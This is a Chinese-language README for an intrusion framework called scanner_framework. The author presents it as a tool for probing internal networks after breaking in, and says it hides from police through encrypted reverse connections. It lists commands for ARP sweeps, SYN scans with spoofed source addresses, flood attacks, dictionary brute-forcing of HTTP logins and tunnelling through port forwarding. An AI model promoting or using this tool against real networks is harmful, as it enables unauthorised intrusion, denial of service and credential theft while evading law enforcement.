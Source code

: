 
scanner_framework

===

网络探测框架,适用于入侵到内网探测其它网络设备,探测器具有体积小,功能多,而且带有反向连接从内网穿透出外网连接控制终端,通信数据采用动态加密,再也不怕警察叔叔知道我在干坏事儿啦,为了方便破解一些弱口令设备,内部带有在线破解功能(暂时支持HTTP 破解).如果觉得这些功能满足不了需求,可以使用端口映射把你需要的工具直接通过隧道对接到内网的某台指定的主机端口上进行扫描..

***

###LCatro

***

###启动方式
scanner.exe 控制台启动<br/>
scanner.exe -bind [%port%] 绑定端口,远程访问<br/>
scanner.exe -recon %ip% [%port%] 反向连接,远程访问,默认是80 [WARNING! 记得先启动reverse_server ,不然scanner.exe 不能成功连接]<br/>

###使用方法
扫描当前网段存活的主机,并且自动搜集数据<br/>
using:arp<br/>
获取当前主机的网络信息<br/>
using:local<br/>
测试主机是否连通<br/>
using:ping %ip%<br/>
TCP SYN 扫描主机<br/>
using:scan %ip% [-P:[port1,port2,port3,...]] [-F:[fake_ip1,fake_ip2,...]]<br/>
洪水攻击主机<br/>
using:flood %ip% [-P:[port1,...]] [-F:[fake_ip1,...]]<br/>
在线破解<br/>
using:crack %ip% %port% [%user_dictionary_path% %password_dictionary_path%]<br/>
路由跟踪<br/>
using:tracert %ip%<br/>
抓取页面<br/>
using:getpage %ip% [-PORT:%port%] [-PATH:%path%]<br/>
启动端口转发功能<br/>
using:route -R:[%remote_ip%,%remote_port%] -L:[[%local_ip%,]%local_port%]<br/>
显示帮助<br/>
using:help<br/>
退出<br/>
using:quit<br/>

###在线破解 crack
	在线破解功能原理是通过自己构造特定的HTTP 数据包然后程序根据字典穷举测试出帐号密码
	###什么是表达式?
	表达式的意思是给程序一个填充数据的框架,在接下来的穷举测试中会根据表达式内的关键字来填充数据,下面是在线破解的例子:
	
	本地网络192.168.1.103:80 启用了PHP 服务器,在探测器里面输入破解命令
	
	crack 192.168.1.103 80
	
然后会提示输入表达式
	
input your crack express:
	
	输入数据包数据
	



reverse_server 是用来做反向连接用的服务端
scanner.exe -bind 参数启动程序,可以使用putty 的Raw 方式来连接到扫描器
